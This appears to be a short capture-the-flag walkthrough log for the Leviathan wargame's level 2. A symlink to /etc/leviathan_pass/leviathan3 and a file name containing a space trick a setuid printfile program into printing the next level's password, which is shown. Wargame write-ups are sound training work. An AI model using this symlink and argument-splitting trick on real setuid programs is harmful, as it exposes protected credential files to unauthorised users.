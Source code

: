 leviathan2@leviathan:~$ cd -

/tmp

leviathan2@leviathan:/tmp$ ln -s /etc/leviathan_pass/leviathan3 /tmp/nasigoreng/pass

leviathan2@leviathan:/tmp$ cd nasigoreng

leviathan2@leviathan:/tmp/nasigoreng$ ls

lev2pass  lev3pass  pass

leviathan2@leviathan:/tmp/nasigoreng$ touch 'pass file.txt'

leviathan2@leviathan:/tmp/nasigoreng$ ls

lev2pass  lev3pass  pass  pass file.txt

leviathan2@leviathan:/tmp/nasigoreng$ ~/printfile "pass file.txt"

f0n8h2iWLP

/bin/cat: file.txt: No such file or directory

leviathan2@leviathan:/tmp/nasigoreng$

THAT IS THE PASSWORD, IM GOING TO BED. BYE.
